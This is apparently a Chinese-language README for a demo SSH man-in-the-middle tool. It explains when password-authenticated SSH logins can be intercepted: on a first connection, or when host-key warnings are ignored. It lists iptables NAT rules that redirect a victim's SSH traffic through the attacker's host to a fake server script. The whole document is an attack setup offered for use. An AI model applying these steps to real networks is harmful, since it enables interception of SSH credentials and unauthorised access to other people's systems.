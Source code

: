 ## 场景
A -> We -> B. 我们已经成为了中间人的情况下. A尝试连接B的ssh服务.

## 适用范围
A 必须使用的密码验证登录B, 如果是用的publickey认证的, 就无法使用.
基于密码认证的情况下, A需要有以下某一种前提:
* A忽略掉证书server证书错误,将客户端的know_hosts 中的已保存密钥删除.
* A第一次连接这个ssh server.

## 使用方法
1. 配置iptables, 将A的所有流量转到我们的2200端口(可更改)
2. 将B回执给A的包转发给We的client.

A:192.168.1.3<br/>
We:192.168.1.1;192.168.2.2<br/>
B:192.168.2.3<br/>

**iptables规则如下:**
转发A的流量<br/>
`iptables -t nat -I PREROUTING -d 192.168.2.3 -p tcp --dport 22 -j DNAT --to-destination=192.168.1.1:2200`<br/>
`iptables -t nat -I POSTROUTING -d 192.168.1.3 -p tcp -j SNAT --to-source=192.168.2.3`<br/>
转发B的流量<br/>
`iptables -t nat -I PREROUTING -d 192.168.1.3 -p tcp -j DNAT --to-destination=192.168.2.2`<br/>
`iptables -t nat -I POSTROUTING -d 192.168.2.3 -p tcp -j SNAT --to-source=192.168.1.3`<br/>

3. `python demo_ssh_server.py`

